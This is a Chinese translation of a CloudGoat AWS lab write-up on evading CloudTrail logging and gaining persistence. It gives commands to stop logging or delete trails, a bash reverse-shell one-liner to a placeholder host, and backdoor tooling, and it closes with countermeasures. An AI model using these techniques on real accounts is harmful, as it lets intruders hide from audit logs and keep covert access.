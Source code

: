 > 原文链接: https://www.anquanke.com//post/id/170618 


# CloudGoat云靶机 Part-2：绕过CloudTrail实现持久访问


                                阅读量   
                                **137642**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者rzepsky，文章来源：medium.com
                                <br>原文地址：[https://medium.com/@rzepsky/playing-with-cloudgoat-part-2-fooling-cloudtrail-and-getting-persistence-access-6a1257bb3f7c](https://medium.com/@rzepsky/playing-with-cloudgoat-part-2-fooling-cloudtrail-and-getting-persistence-access-6a1257bb3f7c)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/dm/1024_575_/t01e57150d9f8db6936.jpg)](https://p0.ssl.qhimg.com/dm/1024_575_/t01e57150d9f8db6936.jpg)

在第一篇文章中，我分享了一个AWS提权实例：从一个仅有EC2权限的账户提权至管理员权限。今天，我将继续本系列，向大家展示如何绕过监控系统和如何实现持久访问。

[![](https://p4.ssl.qhimg.com/t0145bef55af8d19934.png)](https://p4.ssl.qhimg.com/t0145bef55af8d19934.png)

## CloudTrail

CloudTrail服务会监控所有的AWS活动。亚马逊是这样介绍它的：

> “AWS CloudTrail 是一项 AWS 服务，可帮助对您的 AWS 账户进行监管、合规性检查、操作审核和风险审核。用户、角色或 AWS 服务执行的操作将记录为 CloudTrail 中的事件。事件包括在 AWS 管理控制台、AWS Command Line Interface 和 AWS 开发工具包和 API 中执行的操作。简化了安全性分析，资源更改检测，故障排除等过程。”

换句话说，CloudTrail是个“老大哥”，监视着用户的所有行为。很显然，攻击者拿下一个脆弱的环境后，第一件事就是绕过检测系统，清除痕迹。如果攻击者拿下了管理员权限，实现这些并不是不可能的。

### <a class="reference-link" name="%E4%BA%86%E8%A7%A3%E9%85%8D%E7%BD%AE"></a>了解配置

CloudTrail服务默认是关闭的，管理员可以配置它。你可以设置“trails”来自定义监视的内容。

回到CloudGoat平台，让我们来看看CloudTrail监视的范围。

[![](https://p4.ssl.qhimg.com/t018ff4c22a2ba6c98d.png)](https://p4.ssl.qhimg.com/t018ff4c22a2ba6c98d.png)

可以看到，所有的日志文件都存储在一个名为“8678170722044418295491212493322823229141751439696325418”的S3储存桶中。还有CloudGoat中的CloudTrail仅监视了“us-west-2”区域。所以我们可以开展区域外的行动了，比如我们创建在其他区域创建一个新实例，这并不会被CloudTrail监控到。还有一点，请注意，使用全球服务将会被记录下来，像“IAM”（比如创建一个备用账户）。那么，攻击者如何绕过CloudTrail监控服务？

### <a class="reference-link" name="%E4%B8%AD%E6%AD%A2%E6%9C%8D%E5%8A%A1"></a>中止服务

首先，所有的入侵者都会想到这点。暂停服务用以下简单的命令实现：

[![](https://p2.ssl.qhimg.com/t01a400cf4582cb8735.png)](https://p2.ssl.qhimg.com/t01a400cf4582cb8735.png)

然后，攻击者可能会执行一些有害操作（例如窃取数据，创建IAM备用账户，创建新实例用于挖矿）。完成攻击后，可以以下命令启动CloudTrail：

```
$ aws cloudtrail start-logging --name cloudgoat_trail --profile administrator
```

### <a class="reference-link" name="%E5%88%A0%E9%99%A4trails"></a>删除trails

通过删除所有trail也可以中止CloudTrail服务：

```
$ aws cloudtrail delete-trail --name cloudgoat_trail --profile administrator
```

或者，你移除存储日志信息的储存桶也可以做到（你过你那么做，记住添加一个`force`标签，否则你即使有管理员权限也无法删除储存桶）

[![](https://p1.ssl.qhimg.com/t01779068adf19a1add.png)](https://p1.ssl.qhimg.com/t01779068adf19a1add.png)

在删除trails或者储存桶后，CloudTrail将处于宕机状态。还有一点，这两个方法有点高调，因为CloudTrail中会有最终的回显。例如当你删除了储存桶后，CloudTrail会有这样的提示：

[![](https://p2.ssl.qhimg.com/t016646da88de30815e.png)](https://p2.ssl.qhimg.com/t016646da88de30815e.png)

GuardDuty（另一个监控服务）也会对CloudTrail服务的异常状态发出警报：

[![](https://p4.ssl.qhimg.com/t012a03c16201be6f8e.png)](https://p4.ssl.qhimg.com/t012a03c16201be6f8e.png)

### <a class="reference-link" name="%E6%9B%B4%E5%A5%BD%E7%9A%84%E6%96%B9%E6%B3%95"></a>更好的方法

如果开启了CloudTrail，它默认监视所有区域。然而我们的CloudGoat平台中仅监视“us-west-2” 区域，所以我们可以在其他区域创建EC2实例，而不用担心被监控到。

对于全球服务，前面已经说过了，任何操作都会被监控到。幸运的是，你可以用标签`include-global-service-events`关闭全球服务中的事件监视。为了验证是否有效，我创建了一个用户“test1”，然后关闭了全球服务事件监视:

[![](https://p2.ssl.qhimg.com/t01338d5db4931bd576.png)](https://p2.ssl.qhimg.com/t01338d5db4931bd576.png)

然后我创建了用户“test2”:

[![](https://p5.ssl.qhimg.com/t01003ef9d4916b613d.png)](https://p5.ssl.qhimg.com/t01003ef9d4916b613d.png)

我用Bob的密钥暂停了EC2实例（检查“us-west-2”的所有事件是否正确记录）。在CloudTrail中，可以看到这里有记录”test1“用户的创建，而没有”test2“的记录：

[![](https://p1.ssl.qhimg.com/t01f5be7fc688e42d1b.png)](https://p1.ssl.qhimg.com/t01f5be7fc688e42d1b.png)

用这种方法，攻击者可以绕过CloudTrail服务的监视。还有其他的方法避免被CloudTrail记录：
1. 使用新密钥加密所有日志（禁用该密钥，一段时间后删除）
1. 使用新的S3储存桶（攻击者完成删除它，然后再换回原先的储存桶）。
1. 使用AWS Lambda拒绝新日志记录（不需要更改CloudTrail的trails配置，你只需要这些权限“iam:CreatePolicy”, “iam:AttachRolePolicy”, “lambda:CreateFunction”, “lambda:AddPermission”, “s3:PutBucketNotification”）
如果这些方法不切合实际情况，[Daniel Grzelak的一篇文章](https://danielgrzelak.com/disrupting-aws-logging-a42e437d6594)可能会帮到你。

> 需要注意的是，以上所有方法虽然可以避免CloudTrail日志被记录到储存桶中，但是****所有的操作还是会CloudTrail事件系统储存90天****。包括所有区域的事件都会被储存且无法关闭存储系统。[这里](https://summitroute.com/blog/2018/08/07/aws_cloudtrail_vs_cloudwatch_events_vs_event_history/)你可以了解详情。

[![](https://p0.ssl.qhimg.com/t01df11d4705afbbf85.png)](https://p0.ssl.qhimg.com/t01df11d4705afbbf85.png)



## 持久访问

在获取管理员权限，并且知道如何绕过CloudTrail监视器后，那么是时候在该环境实现持久访问了。有很多方法可以在该环境下留下后门，比如：
1. 用高权限账户修改用户数据（使用bash命令`bash -i &gt;&amp; /dev/tcp/[your_ip]/[your_port] 0&gt;&amp;1`或者获取SSH密钥认证）
1. 添加AMI备用账户后，用它创建新EC2实例
1. 在Lambda函数中添加后门（比如，某个参数调用该函数后导致创建一个新用户）
较好的方法是给现有的用户分配额外的密钥，[aws pwn](https://github.com/dagrz/aws_pwn)可以帮助你做到这点。然而aws pwn还可以帮助你自动化地完成很多事：
<li>
****rabbit_lambda****—  Lambda函数，可以不断地删除某个用户再创建它，实现干扰删除用户的事件记录系统。</li>
<li>
****cli_lambda**** —  Lanmbda函数，可以无需凭证创建AWS CLI代理</li>
<li>
****backdoor_created_users_lambda**** — Lambda函数，可以给新用户添加密钥</li>
<li>
****backdoor_created_roles_lambda**** — Lambda函数，给新用户之间添加信任关系</li>
<li>
****backdoor_created_security_groups_lambda****— Lambda函数，把新入站规则应用到所有安全组</li>
<li>
****backdoor_all_users****— 可以给账户中的用户添加密钥</li>
<li>
****backdoor_all_roles**** — 可以给所有用户之间添加信任关系（设置[ARN](https://docs.aws.amazon.com/zh_cn/general/latest/gr/aws-arns-and-namespaces.html)）</li>
让我们回到CloudGoat平台环境，给所有用户添加密钥：

[![](https://p2.ssl.qhimg.com/t01a61429b8e3499060.png)](https://p2.ssl.qhimg.com/t01a61429b8e3499060.png)

好的，现在所有用户都有两个密钥了。我们可以再AWS管理中心看到：

[![](https://p0.ssl.qhimg.com/t01892c387b2ac1ed0d.png)](https://p0.ssl.qhimg.com/t01892c387b2ac1ed0d.png)

有趣的是，用户不会收到添加密钥的通知。对于CloudTrail来说，因为关闭了全球服务事件的通知，所以不会有日志记录。那么，GuardDuty（AWS监控系统）会有什么不同？

> <p>Amazon是这样描述GuardDuty服务的“<br>
Amazon GuardDuty 是一种智能威胁检测服务，帮助保护您的 AWS 账户和工作负载。”</p>

所以，它不会把有权限地IAM用户正常创建新密钥识别为异常活动：

[![](https://p0.ssl.qhimg.com/t01c4f8a97fa4e5a1ed.png)](https://p0.ssl.qhimg.com/t01c4f8a97fa4e5a1ed.png)



## 应对措施

这篇文章介绍了绕过CloudTrail监视系统和如何实现持久访问。你应该发现了，这不是一项艰巨的任务。那么，我们该如何防止这些东西发生呢？
1. 启用[CloudTrail日志完整性保护](https://docs.aws.amazon.com/awscloudtrail/latest/userguide/cloudtrail-log-file-validation-intro.html)，以防止攻击者替换日志的S3储存桶。
1. 除了极少数需要使用它的用户（遵循最小权限原则，[Netflix的Repokid](https://github.com/Netflix/repokid)可以快速地帮助你），删除所有用户的CloudTrail管理权限（有助于防止攻击者提权，[这里](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)可以帮助你）
1. 设置其他AWS账户管理CloudTrail S3储存桶的[跨区域复制](https://docs.aws.amazon.com/zh_cn/AmazonS3/latest/dev/crr.html)权限。即使主账户的AWS环境被攻击者入侵，CloudTrail日志也无法更改。
1. 启用[MFA删除保护](https://docs.aws.amazon.com/zh_cn/AmazonS3/latest/dev/UsingMFADelete.html)，增加了删除储存桶内容的难度。
1. 使用其他公司的服务备份CloudTrail日志（例如：[ Splunk](https://aws.amazon.com/cloudtrail/partners/splunk/)）。
1. 启用多种监视器，比如[AWS AWS CloudWatch Events](https://docs.aws.amazon.com/zh_cn/AmazonCloudWatch/latest/events/WhatIsCloudWatchEvents.html), 外部服务：[Cloudsploit Events](https://blog.cloudsploit.com/introducing-cloudsploit-events-fb2b4822130a) , [CloudTrail Listener](https://www.gorillastack.com/aws-cloudtrail-slack-integration/)。